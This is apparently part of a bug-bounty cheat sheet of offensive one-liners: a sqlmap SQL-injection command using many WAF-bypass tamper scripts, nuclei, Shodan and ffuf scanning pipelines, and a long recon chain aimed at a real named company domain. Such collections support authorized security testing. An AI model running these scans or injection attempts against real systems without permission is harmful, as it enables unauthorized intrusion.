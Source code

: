 `echo cidr | httpx -t 100 | nuclei -t ~/nuclei-templates/ssl/ssl-dns-names.yaml | cut -d " " -f7 | cut -d "]" -f1 |  sed 's/[//' | sed 's/,/\n/g' | sort -u`

## 
<br/><br/>
## SQLmap Tamper Scripts - WAF bypass

`sqlmap -u 'http://www.site.com/search.cmd?form_state=1' --level=5 --risk=3 --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
 --no-cast --no-escape --dbs --random-agent`

## 
<br/><br/>
## Shodan Cli

`shodan search Ssl.cert.subject.CN:"target.com" --field ip_str | httpx -silent | tee ips.txt`

### 
<br/><br/>
### ffuf txt output

`ffuf -w wordlists.txt -u URL/FUZZ -r -ac -v &>> output.txt ; sed -i 's/\:\: Progress.*Errors.*\:\://g' output.txt ; sed -i 's/\x1B\[[0-9;]\{1,\}[A-Za-z]//g' output.txt`

### 
<br/><br/>
### Ffuf json to only url

`cat ffuf.json | jq | grep "url" | sed 's/"//g' | sed 's/url://g' | sed 's/^ *//' | sed 's/,//g'`

## 
<br/><br/>
## Recon Oneliner from Stok

`subfinder -d moonpay.com -silent | anew moonpay-subs.txt | dnsx -resp -silent | anew moonpay-alive-subs-ip.txt | awk '{print $1}' | anew moonpay-alive-subs.txt | naabu -top-ports 1000 -silent | anew moonpay-openports.txt | cut -d ":" -f1 | naabu -passive -silent | anew moonpay-openports.txt | httpx -silent -title -status-code -mc 200,403,400,500 | anew moonpay-web-alive.txt | awk '{print $1}' | gospider -t 10 -q -o moonpaycrawl | anew moonpay-crawled.txt | unfurl format %s://dtp | httpx -silent -title -status-code -mc 403,400,500 | anew moonpay-crawled-interesting.txt | awk '{print $1}' | gau --blacklist eot,svg,woff,ttf,png,jpg,gif,otf,bmp,pdf,mp3,mp4,mov --subs | anew moonpay-gau.txt | httpx -silent -title -status-code -mc 200,403,400,500 | anew moonpay-web-alive.txt | awk '{print $1}'| nuclei -eid expired-ssl,tls-version,ssl-issuer,deprecated-tls,revoked-ssl-certificate,self-signed-ssl,kubernetes-fake-certificate,ssl-dns-names,weak-cipher-suites,mismatched-ssl-certificate,untrusted-root-certificate,metasploit-c2,openssl-detect,default-ssltls-test-page,wordpress-really-simple-ssl,wordpress-ssl-insecure-content-fixer,cname-fingerprint,mx-fingerprint,txt-fingerprint,http-missing-security-headers,nameserver-fingerprint,caa-fingerprint,ptr-fingerprint,wildcard-postmessage,symfony-fosjrouting-bundle,exposed-sharepoint-list,CVE-2022-1595,CVE-2017-5487,weak-cipher-suites,unauthenticated-varnish-cache-purge,dwr-index-detect,sitecore-debug-page,python-metrics,kubernetes-metrics,loqate-api-key,kube-state-metrics,postgres-exporter-metrics,CVE-2000-0114,node-exporter-metrics,kube-state-metrics,prometheus-log,express-stack-trace,apache-filename-enum,debug-vars,elasticsearch,springboot-loggers -ss template-spray | notify -silent`
